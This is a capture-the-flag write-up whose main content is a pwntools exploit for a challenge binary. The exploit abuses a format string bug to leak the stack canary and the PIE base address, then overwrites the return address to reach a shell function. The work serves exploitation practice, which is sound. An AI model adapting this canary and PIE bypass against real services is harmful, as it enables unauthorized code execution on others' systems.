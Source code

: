 ### Download the binary from here : https://github.com/0xSh4dy/CTF-Writeups/blob/file/brokecollegestudents
### There is a format string vulnerability in the catch() function. Also, PIE is enabled and there is a stack canary We can exploit the format string vulnerability to leak the stack canary and the base address of the elf
```
#!/usr/bin/env python3
from pwn import *
elf = context.binary = ELF("./brokecollegestudents")
context.log_level = "debug"
p = process("./brokecollegestudents")
#gdb.attach(p)
def initRecv():
    p.sendlineafter("Choice: ","1")
    p.recv()
    p.sendline("1")
    p.recv()
    p.sendline("1")

initRecv()

# Leaking the Stack Canary
p.sendlineafter("name","%9$p")
for i in range(2):
    p.recvline()
leak = p.recvuntil("What").decode()[:-4]
canary = hex(int(leak,16))
log.info("Canary: {}".format(canary))
canary = int(canary,16)
initRecv()

#Leaking the base address of ELF
# I found this fmt payload after lots of debugging.
p.sendlineafter("name","%28$p")
for i in range(2):
    p.recvline()
leak = p.recvuntil("What").decode()[:-4]

leak = int(leak,16)
elf.address = leak-0x18f6
log.info("elf base address: {}".format(hex(elf.address)))
initRecv()
shell = elf.address + 0x14ec
payload = b'a'*24 + p64(canary) + b'a'*8+p64(shell)
p.sendline(payload)
p.interactive()
```
